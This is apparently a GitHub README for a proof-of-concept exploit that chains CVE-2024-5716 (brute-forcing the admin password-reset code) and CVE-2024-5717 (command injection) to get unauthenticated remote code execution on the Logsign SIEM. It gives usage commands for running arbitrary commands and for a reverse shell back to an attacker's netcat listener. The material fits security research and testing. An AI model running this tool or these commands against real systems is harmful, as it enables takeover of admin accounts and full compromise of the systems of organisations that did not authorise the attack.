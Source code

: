 # Logsign SIEM RCE Exploit (CVE-2024-5716 & CVE-2024-5717)

This tool is a proof-of-concept (PoC) exploit that combines two critical vulnerabilities in the Logsign Unified SecOps Platform (SIEM) to achieve unauthenticated remote code execution (RCE).

## Description

The exploit chains two vulnerabilities:

**CVE-2024-5716 (Authentication Bypass):**  
A flaw in the password reset mechanism allows the 6-digit reset code to be brute-forced without rate limiting. This script uses multi-threading to quickly identify the reset code and reset the admin user's password.

**CVE-2024-5717 (Command Injection):**  
Once logged in as an admin user, the `/api/settings/demo_mode` API endpoint fails to properly validate user input, allowing arbitrary command injection and execution on the target system.

By combining these vulnerabilities, an attacker can gain full control over the target system.

## Features

- Automatically chains CVE-2024-5716 and CVE-2024-5717.
- Resets the admin user's password to gain system access.
- Supports three modes for remote code execution (RCE):
  - **Default PoC**: Executes `id > /tmp/logsign_pwned.txt` on the target system.
  - **Single Command Execution**: Runs a user-specified command.
  - **Reverse Shell**: Establishes an interactive shell session to a specified IP and port.
- Detailed logging for debugging with `--debug` mode.

## Installation and Requirements

**Clone the project files:**

```
bash
git clone https://github.com/sevbandonmez/logsign-rce.git
cd logsign-rce
```

## Install the required Python library

```pip install requests```


## Usage
The script can be executed with various command-line arguments.

```
usage: exploit.py [-h] -t TARGET [-rh REVERSE_HOST] [-rp REVERSE_PORT] [-c COMMAND] [-d]

Logsign RCE Exploit Tool

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target URL (e.g., https://example.com:8443)
  -rh REVERSE_HOST, --reverse-host REVERSE_HOST
                        Reverse shell IP address
  -rp REVERSE_PORT, --reverse-port REVERSE_PORT
                        Reverse shell port
  -c COMMAND, --command COMMAND
                        Custom command to execute
  -d, --debug           Enable debug logging
```

## Example 1: Default PoC
This mode creates a file /tmp/logsign_pwned.txt on the target system to prove the vulnerability.

```python3 exploit.py -t https://192.168.1.100```

Check the file on the target system: cat /tmp/logsign_pwned.txt.Example 2: Single Command ExecutionRun a single command, such as whoami, on the target system:bash

```python3 exploit.py -t https://192.168.1.100 -c "whoami"```

## Example 3: Reverse Shell
This mode provides an interactive command-line shell on the target system.

**Step 1:* Start a listener on the attacker's machine using Netcat:bash**

```nc -lvnp 4444```

**Step 2:* Run the exploit, specifying your IP address and port:bash**

```python3 exploit.py -t https://192.168.1.100 -rh 192.168.1.20 -rp 4444```

If successful, a shell session will appear in your Netcat listener.

## Debugging
If the script fails or produces unexpected errors, enable detailed logging with the --debug flag:bash

```python3 exploit.py -t https://192.168.1.100 -rh 192.168.1.20 -rp 4444 --debug```

## Special Thanks
Endless thanks to @mdisec for the identified CVE vulnerabilities. 

## Legal Disclaimer
This tool is developed solely for authorized security testing and educational purposes. Unauthorized use of this tool for illegal activities is strictly prohibited. Any damage or legal consequences resulting from the use of this tool are the sole responsibility of the user. The developer is not liable for any misuse of this tool.

## LICENSE
This project is licensed under the MIT License. See the LICENSE file for details.

## References
[Logsign Support](https://support.logsign.net/hc/en-us/articles/19316621924754-03-06-2024-Version-6-4-8-Release-Notes)<br>
[Zero Day Inititive](https://www.zerodayinitiative.com/blog/2024/7/1/getting-unauthenticated-remote-code-execution-on-the-logsign-unified-secops-platform)
[Writeup old version](https://medium.com/@sevbandonmez/zero-day-review-critical-vulnerabilities-in-logsign-unified-secops-platform-versions-6-4-7-69bbec653b3a)
